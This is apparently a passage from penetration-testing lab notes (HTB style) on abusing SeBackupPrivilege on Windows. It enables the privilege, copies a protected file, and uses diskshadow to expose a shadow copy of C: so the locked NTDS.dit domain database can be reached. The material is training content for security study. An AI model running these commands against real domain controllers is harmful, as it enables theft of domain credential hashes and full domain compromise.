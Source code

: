 #### Enabling SeBackupPrivilege

> **Note:** Based on the server's settings, it might be required to spawn an elevated CMD prompt to bypass UAC and have this privilege.
{: .prompt-warning }

```powershell
PS C:\htb> Set-SeBackupPrivilege
PS C:\htb> Get-SeBackupPrivilege

SeBackupPrivilege is enabled
```

#### Copying a Protected File

```powershell
PS C:\htb> dir C:\Confidential\

Directory: C:\Confidential

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         5/6/2021   1:01 PM             88 2021 Contract.txt
```

```powershell
PS C:\htb> Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt

Copied 88 bytes


PS C:\htb>  cat .\Contract.txt
```

#### Attacking a Domain Controller - Copying NTDS.dit

This group also permits logging in locally to a domain controller.

As the `NTDS.dit` file is locked by default, we can use the Windows [diskshadow](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow) utility to create a shadow copy of the `C` drive and expose it as `E` drive. The NTDS.dit in this shadow copy won't be in use by the system.

```powershell
PS C:\htb> diskshadow.exe

DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit

PS C:\htb> dir E:
```
